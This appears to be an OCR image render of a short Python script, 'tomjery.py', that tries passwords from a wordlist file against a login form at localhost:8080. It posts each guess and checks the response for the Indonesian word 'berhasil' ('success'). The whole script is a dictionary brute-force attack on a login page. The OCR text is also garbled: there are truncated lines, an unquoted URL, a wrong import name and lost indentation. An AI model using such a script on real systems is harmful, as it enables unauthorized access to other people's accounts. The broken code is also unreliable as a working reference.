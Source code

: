 # tomjery.py
import request, os



os.system('clear')

url = http://localhost:8080/login.php'
user = input('input username : ')

password = open('wd.txt','r').readline>


for line in password:
pw = line.strip()

http = requests.post(url, data={'user'>

k = http.content

if'berhasil' in str(k):
print('password found = ',pw)
else:
        print('wrong pass',pw)
